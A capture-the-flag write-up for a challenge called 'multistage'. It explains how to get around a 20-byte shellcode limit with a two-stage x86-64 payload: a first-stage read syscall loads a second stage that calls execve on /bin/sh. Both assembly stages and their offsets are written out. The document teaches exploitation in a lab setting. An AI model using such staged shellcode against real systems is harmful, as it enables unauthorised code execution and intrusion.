


# multistage

This challenge reads shellcode from stdin and executes it. The problem is that it reads just 20 (0x14) bytes that are not enough to write a shellcode that spawns a shell.

The idea is to write a first stage that reads the second stage from stdin.

## First Stage

```asm
mov rsi, rax
xor rax, rax
mov rdi, rax
mov rdx, 0x1000
syscall
; 2 * 0x90
```

- RSI: set to the address of the second stage
- RAX: set to 0 (SYS_read)
- RDI: set to 0 (stdin)
- RDX: set to 0x1000 (4096 bytes), the number of bytes to read (basically a random large enough number)



As we can see the first stage is 20 bytes long.

## Second Stage

```asm
; 20*0x90 to align with the RIP
mov rdi, rsi
add rdi, 0x2b
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

- RDI: set to the address of the string "/bin/sh"
- RAX: set to 0x3b (SYS_execve)
- RSI: set to 0 (NULL)
- RDX: set to 0 (NULL)



This is the situation right after the SYS_READ syscall. As we can see the RIP points right after the syscall.

So we have that the second stage begins 21 bytes (0x15) after the first stage. The second stage is 22 bytes long. Then the offset of "/bin/sh" is 43 = 0x2b bytes.
